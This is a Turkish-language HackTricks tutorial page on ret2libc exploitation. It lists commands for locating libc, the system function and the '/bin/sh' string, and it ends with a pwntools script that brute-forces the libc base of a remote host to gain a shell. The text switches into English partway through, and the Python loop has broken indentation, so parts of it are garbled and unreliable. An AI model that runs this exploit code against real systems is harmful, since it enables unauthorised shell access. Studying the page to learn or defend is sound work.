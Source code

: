 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>


**Eğer bir zafiyetli ikili bulduysanız ve Ret2Lib kullanarak bunu sömürebileceğinizi düşünüyorsanız, izleyebileceğiniz bazı temel adımlar bulabilirsiniz.**

# Eğer **hedefin içindeyseniz**

## **libc adresini** bulabilirsiniz
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
ASLR'nin libc adresini değiştirip değiştirmediğini kontrol etmek isterseniz şunu yapabilirsiniz:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Sistem fonksiyonunun ofsetini alın

Bir programı hedef alırken, sistem fonksiyonunun ofsetini belirlemek önemlidir. Bu, hedef programda sistem çağrılarını gerçekleştiren işlevin bellek adresini bulmamıza yardımcı olur. Sistem fonksiyonunun ofsetini almak için aşağıdaki adımları izleyebilirsiniz:

1. Hedef programı çalıştırın ve debugger'ı başlatın.
2. Debugger'da hedef programın çalıştığı noktaya gelin.
3. Sistem fonksiyonunun adını ve kütüphane adını belirleyin. Örneğin, `system` fonksiyonu `libc` kütüphanesinde bulunur.
4. Debugger'da `p system` komutunu kullanarak sistem fonksiyonunun adresini alın.
5. Sistem fonksiyonunun ofsetini hesaplamak için `p system - libc_base_address` formülünü kullanın. `libc_base_address`, hedef programın `libc` kütüphanesinin başlangıç adresidir.

Bu adımları takip ederek, sistem fonksiyonunun ofsetini elde edebilir ve hedef programda bu fonksiyonu hedefleyebilirsiniz.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
To get the offset of "/bin/sh", we can use the `objdump` command. First, we need to find the address of the string "/bin/sh" in the binary. We can do this by running the following command:

```bash
objdump -s -j .rodata binary | grep "/bin/sh"
```

This command will display the offset and the corresponding string. The offset value is what we are interested in.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Eğer işlem her konuştuğunuzda (ağ sunucusu gibi) **çocuklar** oluşturuyorsa, bu dosyayı **okumayı** deneyin (muhtemelen root olmanız gerekecektir).

Burada işlem içinde **libc'nin tam olarak nerede yüklendiğini** ve işlemin her çocuğunun **nerede yükleneceğini** bulabilirsiniz.

![](<../../.gitbook/assets/image (95).png>)

Bu durumda, **0xb75dc000** adresine yüklendi (Bu, libc'nin temel adresi olacak)

## gdb-peda Kullanarak

gdb-peda kullanarak **system** fonksiyonunun, **exit** fonksiyonunun ve **"/bin/sh"** dizesinin adresini alın:
```
p system
p exit
find "/bin/sh"
```
# ASLR Geçme

Libc'nin taban adresini bruteforce yöntemiyle deneyebilirsiniz.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Kod
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud github depolarına PR göndererek paylaşın**.

</details>
